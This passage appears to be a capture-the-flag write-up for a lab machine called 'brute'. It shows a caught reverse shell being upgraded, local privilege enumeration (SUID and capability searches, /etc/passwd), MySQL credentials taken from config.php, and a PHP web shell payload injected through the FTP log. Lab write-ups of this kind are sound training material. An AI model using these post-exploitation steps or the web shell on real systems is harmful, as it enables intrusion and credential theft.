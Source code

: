 We have a shell that could use some work so I upgrade it:

```bash
www-data@brute:/var/www/html$ clear
clear
TERM environment variable not set.
www-data@brute:/var/www/html$ python3 -c 'import pty;pty.spawn("/bin/bash")'
python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@brute:/var/www/html$ ^Z
zsh: suspended  nc -nvlp 4444
                                                                                                        
┌──(kali㉿kali)-[~]
└─$ stty raw -echo; fg
[1]  + continued  nc -nvlp 4444

www-data@brute:/var/www/html$ export TERM=xterm-256color
www-data@brute:/var/www/html$
```

<br>

## System Enumeration - www-data

We don't have access to `sudo -l` since it requires a password.

Looking at capabilities via `getcap -n -r / 2>/dev/null` doesn't give us anything we can use.

I look for files with SUID set and don't find anything interesting:

`find / -perm /4000 2>/dev/null`

Users on the system with shell access via `cat /etc/passwd | grep bash`:

```bash
root:x:0:0:root:/root:/bin/bash
adrian:x:1000:1000:adrian:/home/adrian:/bin/bash
```

Poking around the **/var/www/html** directory shows us a **config.php** file with MySQL credentials in it for the adrian user:

```bash
define('DB_SERVER', 'localhost');
define('DB_USERNAME', 'adrian');
define('DB_PASSWORD', '<REDACTED>');
define('DB_NAME', 'website');
```

Logging into the mysql server with these credentials gives us access to the same information we previously found except adrian only has access to the website database where root had all databases.

I take a look at **/var/log/vsftpd.log** out of curiousity and see the php code we injected:

```bash
Sun Jul 31 16:52:26 2022 [pid 3177] [<?php system($_GET['c']);?>] FAIL LOGIN: Client "::ffff:10.6.127.197"
```
